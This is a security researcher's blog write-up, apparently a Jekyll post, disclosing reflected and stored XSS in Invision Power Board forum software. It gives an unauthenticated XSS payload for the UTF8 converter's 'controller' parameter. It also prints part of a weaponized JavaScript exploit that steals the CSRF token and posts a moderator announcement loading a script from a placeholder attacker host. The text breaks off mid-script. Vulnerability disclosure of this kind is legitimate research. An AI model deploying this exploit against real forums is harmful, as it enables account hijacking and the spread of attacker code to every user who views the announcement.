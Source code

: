 ```yaml
---
layout: post
title: "Reflected and Stored XSS in Invision Power Board"
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<a href="https://en.wikipedia.org/wiki/Invision_Power_Board" style="text-decoration:none;color:#DC0739">Invision Power Board</a> is a very popular paid forum software. I decided to audit it and initially found a few stored XSS vulnerabilities in the admin panel, all had a low impact, so I didn't report them. Then I came across the **Announcements** function in the Moderator Control Panel. Essentially this function allows moderators and admins to create an forum announcement for every user to see, and it also allowed any HTML in it!<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;If I had access to a **moderator** account or higher, I could easily put an XSS payload in an annoucement and attack everyone. I obviously wasn't satisfied so I kept searching for another bug to chain it with.
<br><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;I eventually came across the IPS UTF8 Converter, when I was using find & grep to find different variables in the source code. This tool, which comes with the default installation, is used to convert all the tables in the database to UTF-8. I opened up the path to the converter `admin/convertutf8/index.php`  and quickly got an error message. I was pretty bummed because I was initally looking into an RCE, but came up empty. But then I saw the `controller=` parameter. I checked the source of the page and saw that this parameter was not sanitizing any input at all and that I could insert HTML and javascript here, no authentication required! My first proof of concept was just a simple payload =>  `%29};alert(document.domain);{ %27`
<br><br>
Most times when people report an XSS or do a write up, they just use an `alert(1)` and just give a hypothetical attack. I didn't want to do that with this one. I really wanted to weaponize this as much as possible (and in a fun way), so I coded a couple scripts to do just that! 
<br><br>
The first script I coded was: http://www.sxcurity.pro/pocs/xss.js 
```javascript
/*
 _
(_)_ ____      ___ __
| | '_ \ \ /\ / / '_ \
| | |_) \ V  V /| | | |
|_| .__/ \_/\_/ |_| |_|
 |_|  IPB Exploit
      by @sxcurity
*/

// specifies the target, the title of the announcement, and the xss payload!
var target = 'http://<target>/index.php?/modcp/announcements/&action=create';
var title = 'URGENT';

// Don't use quotes! It'll break our form down below!
var payload = '<script src=//<ATTACKER>/lol.js></script>';

// steals the csrf token ;)
var cdl = get(target);
document.body.innerHTML = cdl;
var form = document.getElementsByTagName('input')[3];
var token = form.value;

// DON'T EDIT!!
// Gets the current date! Thanks stackoverflow
var today = new Date();
var dd = today.getDate();
var mm = today.getMonth()+1; //January is 0!
var yyyy = today.getFullYear();
if(dd<10){
    dd='0'+dd;
}
if(mm<10){
```